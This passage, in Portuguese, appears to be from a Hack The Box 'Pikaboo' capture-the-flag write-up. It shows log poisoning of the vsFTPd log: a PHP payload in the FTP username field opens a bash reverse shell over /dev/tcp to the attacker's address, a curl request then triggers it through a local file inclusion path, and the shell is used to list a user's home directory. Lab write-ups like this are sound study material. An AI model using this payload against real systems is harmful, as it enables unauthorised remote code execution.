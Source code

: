 Conseguimos acesso ao log do VSFTPd!!!

Agora podemos utilizar a técnica de `Log Poisoning` para conseguir um `RCE` e talvez um reverse shell, e de quebra, conseguimos enumerar o user `pwnmeow`.
Tudo o que precisamos fazer é tentar nos concectar com o FTP, no lugar do username, inserimos um payload em `PHP`, ao enviarmos uma requisição para o log, teremos a execução do payload.

```
┌──(hastur㉿hastur)-[~/Pikaboo]
└─$ ftp 10.10.10.249                                            
Connected to 10.10.10.249.
220 (vsFTPd 3.0.3)
Name (10.10.10.249:hastur): <?php exec('/bin/bash -c "bash -i > /dev/tcp/10.10.14.111/8443 0>&1"'); ?>
331 Please specify the password.
Password:
530 Login incorrect.
Login failed.
ftp> quit
221 Goodbye.
```

Em password, podemos inseir qualquer coisa.

Agora setamos um `netcat` na porta informada no payload e enviamos um curl para o endereço.

```
┌──(hastur㉿hastur)-[~/Pikaboo]
└─$ curl http://pikaboo.htb/admin../admin_staging/index.php?page=/var/log/vsftpd.log
```
<img src="/htb/htb-pikaboo-11.png">

E conseguimos nosso shell!!!

```
www-data@pikaboo:/var/www/html/admin_staging$ cd /home
cd /home
www-data@pikaboo:/home$ ls -la
ls -la
total 568
drwxr-xr-x  3 root    root      4096 May 10 10:26 .
drwxr-xr-x 18 root    root      4096 Jul 27 09:32 ..
drwxr-xr-x  2 pwnmeow pwnmeow 569344 Jul  6 20:02 pwnmeow
www-data@pikaboo:/home$ cd pwnmeow
cd pwnmeow
www-data@pikaboo:/home/pwnmeow$ ls -la
ls -la
total 580
drwxr-xr-x 2 pwnmeow pwnmeow  569344 Jul  6 20:02 .
drwxr-xr-x 3 root    root       4096 May 10 10:26 ..
lrwxrwxrwx 1 root    root          9 Jul  6 20:02 .bash_history -> /dev/null
-rw-r--r-- 1 pwnmeow pwnmeow     220 May 10 10:26 .bash_logout
-rw-r--r-- 1 pwnmeow pwnmeow    3526 May 10 10:26 .bashrc
-rw-r--r-- 1 pwnmeow pwnmeow     807 May 10 10:26 .profile
lrwxrwxrwx 1 root    root          9 Jul  6 20:01 .python_history -> /dev/null
-r--r----- 1 pwnmeow www-data     33 Sep 19 19:43 user.txt
```